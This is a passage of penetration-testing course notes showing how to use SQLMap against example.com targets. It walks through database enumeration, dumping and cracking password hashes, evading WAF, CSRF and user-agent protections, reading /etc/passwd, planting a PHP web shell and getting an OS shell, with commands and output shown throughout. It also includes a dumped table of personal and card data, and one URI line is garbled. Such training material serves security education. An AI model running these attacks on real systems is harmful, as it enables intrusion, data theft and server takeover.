In such cases, a user is also advised to include the switch ```--exclude-sysdbs```, which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.

## Advanced Database Enumeration

### DB Schema Enumeration

If you wanted to retrieve the structure of all the tables so that you can have a complete overview of the database architecture, you could use the switch ```--schema```.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

### Searching for Data

When dealing with complex database structures with numerous tables and columns, you can search for databases, tables, and columns of interest, by using the ```--search``` option. This option enables you to search for identifier names by using the LIKE operator.

Example 1:

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n] 
...SNIP...
```

Example 2:

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+
```

### Password Enumeration and Cracking

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes 
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                                                                                         
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                                                                                         
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'                                                                                                        
Database: master                                                                                                                                                                                          
Table: users
[32 entries]
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | name              | email                       | phone        | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| 1  | 5387278172507117 | Maynard Rice      | MaynardMRice@yahoo.com      | 281-559-0172 | 1698 Bird Spring Lane  | March 1 1958      | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             | Linemen                                           |
| 2  | 4539475107874477 | Julio Thomas      | JulioWThomas@gmail.com      | 973-426-5961 | 1207 Granville Lane    | February 14 1972  | 10945aa229a6d569f226976b22ea0e900a1fc219 (taqris)           | Agricultural product sorter                       |
| 3  | 4716522746974567 | Kenneth Maloney   | KennethTMaloney@gmail.com   | 954-617-0424 | 2811 Kenwood Place     | May 14 1989       | a5e68cd37ce8ec021d5ccb9392f4980b3c8b3295 (hibiskus)         | General and operations manager                    |
| 4  | 4929811432072262 | Gregory Stumbaugh | GregoryBStumbaugh@yahoo.com | 410-680-5653 | 1641 Marshall Street   | May 7 1936        | b7fbde78b81f7ad0b8ce0cc16b47072a6ea5f08e (spiderpig8574376) | Foreign language interpreter                      |
| 5  | 4539646911423277 | Bobby Granger     | BobbyJGranger@gmail.com     | 212-696-1812 | 4510 Shinn Street      | December 22 1939  | aed6d83bab8d9234a97f18432cd9a85341527297 (1955chev)         | Medical records and health information technician |
| 6  | 5143241665092174 | Kimberly Wright   | KimberlyMWright@gmail.com   | 440-232-3739 | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |
| 7  | 5503989023993848 | Dean Harper       | DeanLHarper@yahoo.com       | 440-847-8376 | 3766 Flynn Street      | February 3 1974   | 2b89b43b038182f67a8b960611d73e839002fbd9 (raided)           | Store detective                                   |
| 8  | 4556586478396094 | Gabriela Waite    | GabrielaRWaite@msn.com      | 732-638-1529 | 2459 Webster Street    | December 24 1965  | f5eb0fbdd88524f45c7c67d240a191163a27184b (ssival47)         | Telephone station installer                       |
```

SQLMap has automatic password hashes cracking capabilities. Upon retrieving any value that resembles a known hash format, SQLMap prompts you to perform a dictionary-based attack on the found hashes.

### DB Users Password Enumeration and Cracking

Apart from user credentials found in DB tables, you can also attempt to dump the content of system tables containing database-specific credentials. To ease the whole process, SQLMap has a special switch ```--passwords``` designed especially for such a task.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch

...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes 
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 14:25:28 /2020-09-18/
```

## Bypassing Web Application Protections

### Anti-CSRF Token Bypass

> [!NOTE]
> CSRF tokens are unique, hard-to-guess strings used by web applications to protect against cross-site request forgery attacks by ensuring that requests originate from authenticated users.

In most basic terms, each HTTP request should have a (valid) token value available only if the user actually visited and used the page. While the original idea was the prevention of scenarios with malicious links, where just opening these links would have undesired consequences for unaware logged-in users, this security feature also inadvertently hardened the applications against unwanted automation.

Nevertheless, SQLMap has options that can help in bypassing anti-CSRF protection, namely ```--csrf-token```. By specifying the token parameter name, SQLMap will automatically attempt to parse the target response content and search for fresh token values so it can use them in the next request.

Additionally, even in a case where the user does not explicitly specify the token's name via ```--csrf-token```, if one of the provided parameters contains any of the common infixes, the user will be prompted whether to update it in further requests.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 22:18:01 /2020-09-18/

POST parameter 'csrf-token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] y
```

### Unique Value Bypass

In some cases, the web application may only require unique values to be provided inside predefined parameters. Such a mechanism is similar to the anti-CSRF token, except that there is no need to parse the web page content. So, by simply ensuring that each request has a unique value for a predefined parameter, the web application can easily prevent CSRF attempts while at the same time averting some of the automation tools. For this, the option ```--randomize``` should be used, pointing to the parameter name containing a value which should be randomized before being sent.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

### Calculated Parameter Bypass

Another similar mechanism is where a web application expects a proper parameter value to be calculated based on some other parameter value(s). Most often, one parameter value has to contain the message digest of another one. To bypass this, the option ```--eval``` should be used, where a valid Python code is being evaluated just before the request is being sent to the targe.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

### IP Address Concealing

A proxy can be set with the option ```--proxy``` (_e.g. --proxy="socks4://177.39.187.70:33283"_).

In addition to that, if you have a list of proxies, you can provide them to SQLMap with the option ```--proxy-file```. This way, SQLMap will go sequentially through the list, and in case of any problems, it will just skip from current to the next from the list. The other option is Tor network use to provide an easy to use anonymization, where your IP can appear anywhere from a large list of Tor exit nodes. By using the ```--tor``` switch, SQLMap will automatically try to find the local port and use it appropriately.

To check that Tor is properly being used, you could use ```--check-tor```.

### WAF Bypass

Whenever you run SQLMap, as part of the initial tests, SLQMap sends a predefined malicious looking payload using a non-existent parameter name to test for the existence of a WAF. There will be a substantial change in the response compared to the original in case of any protection between the user and the target. For example, if one of the most popular WAF solutions, ModSecurity, is implemented, there should be a ```406 - Not Acceptable``` response after such a request.

In case of a positive detection, to identify the actual protection mechanism, SQLMap uses a third-party library _identYwaf_, containing the signature of 80 different WAF solutions. If you wanted to skip this heuristical test altogether (_less noisy_), you can use the switch ```--skip-waf```.

### User-agent Blacklisting Bypass

In case of immediate problems while running SQLMap, one of the first things you should think of is the potential blacklisting of the default user-agent used by SQLMap.

This is trivial to bypass with the switch ```--random-agent```, which changes the default user-agent with a randomly chosen value from a large pool of values used by browsers.

### Tamper Scripts

One of the most popular mechanisms implemented in SQLMap for bypassing WAF/IPS solutions is the so-called "tamper" scripts. These are a special kind of (_Python_) scripts written for modifying requests just before being sent to the target, in most cases to bypass some protection.

Tamper scripts can be chained, one after another within the ```--tamper``` option, where they are run based on predefined priority. A priority is predefined to prevent any unwanted behavior, as some scripts modify payloads by modifying their SQL syntax. In contrast, some tamper scripts do not care about the inner content.

To get a whole list of implemented tamper scripts, along with the description, switch ```--list-tampers``` can be used.

### Miscellaneous Bypasses

1. ```--chunked```
   - splits the POST request's body into so-called "chunks"
   - blacklisted SQL keywords are split between chunks in a way that the request containing them can pass unnoticed
2. HTTP parameter pollution
   - payloads are split in a similar way
   - then, are concatenated by the target platform if supporting it

## OS Exploitation

SQLMap has the ability to utilize an SQLi to read and write files from the local system outside the DBMS. It can also attempt to give you direct command execution on the remote host if you had the proper privileges.

### File Read/Write

Reading data is much more common than writing data, which is strictly privileged in modern DBMSes, as it can lead to system exploitation. For example, in MySQL, to read local files, the DB user must have the privilege to LOAD DATA and INSERT, to be able to load the content of a file to a table and then reading that table.

Example:

```LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;```

> [!NOTE]
> It is becoming much more common in modern DBMSes, to have DBA to read data.

### Checking for DBA Privileges

To check whether you have DBA privileges with SQLMap, you can use ```--is-dba```.

```bash
41y@htb[/htb]$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:31:55 /2020-11-19/

[17:31:55] [INFO] resuming back-end DBMS 'mysql'
[17:31:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: False

[*] ending @ 17:31:56 /2020-11-19
```

If true:

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --is-dba

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.11#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:37:47 /2020-11-19/

[17:37:47] [INFO] resuming back-end DBMS 'mysql'
[17:37:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: True

[*] ending @ 17:37:48 /2020-11-19/
```

### Reading Local Files

Instead of manually injecting the above line through SQLi (_```LOAD DATA LOCAL INFILE '/etc'passwd' INTO TABLE passwd;```_), SQLMap makes it relatively easy to read local files with the ```--file-read``` option.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:40:00 /2020-11-19/

[17:40:00] [INFO] resuming back-end DBMS 'mysql'
[17:40:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[17:40:01] [INFO] fetching file: '/etc/passwd'
[17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
[17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
[17:40:07] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)

[*] ending @ 17:40:14 /2020-11-19/
```

To see its content:

```bash
d41y@htb[/htb]$ cat ~/.sqlmap/output/www.example.com/files/_etc_passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

### Writing Local Files

When it comes to writing files on the hosting server, it becomes much more restricted in modern DBMSes, since you can utilize this to write a Web Shell on the remote server, and hence get the code execution and take over the server.

This is why modern DBMSes disable file-write by default and need certain privileges for DBA's to be able to write files. For example, in MySQL, the ```--secure-file-priv``` configuration must be manually disabled to allow writing data into local files using the INTO OUTFILE SQL query, in addition to any local access needed on the host server, like the privilege to write in the directory you need.

Still, many web applications require the ability for DBMSes to write data into files, so it is worth testing whether you can write files to the remote server. To do that with SQLMap, you can use the ```--file-write``` and ```--file-dest``` options. First, you need a PHP web shell.

```bash
d41y@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now write this file on the remote server, in the ```/var/www/html/``` directory,the default server webroot for Apache. If you didn't know the server webroot, you will see how SQLMap can automatically find it.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:54:18 /2020-11-19/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
[17:54:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

[*] ending @ 17:54:28 /2020-11-19/
```

Now, to access the remote PHP shell:

```bash
d41y@htb[/htb]$ curl http://www.example.com/shell.php?cmd=ls+-la

total 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

### OS Command Execution

Now that you confirmed that you could write a PHP shell to get command execution, you can test SQLMap's ability to give you an easy OS shell without manually writing a remote shell. SQLMap utilizes various techniques to get a remote shell through SQLi vulns, like writing a remote shell, writing SQL functions that execute commands and retrieve output or even using some SQL queries that directly execute OS commands, like ```xp_cmdshell?``` in MSSQL. To get an OS shell with SQLMap, you can use the ```--os-shell``` option.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:02:15 /2020-11-19/

[18:02:16] [INFO] resuming back-end DBMS 'mysql'
[18:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
[18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
[18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
[18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output
```

You see that SQLMap defaulted to UNION technique to get an OS shell, but eventually failed to give you any output. So, as you already know you have multiple types of SQLi vulns. Try to specify another one, like the ```Error-based SQLi```, which you can specify with ```--technique=E```.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 18:05:59 /2020-11-19/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

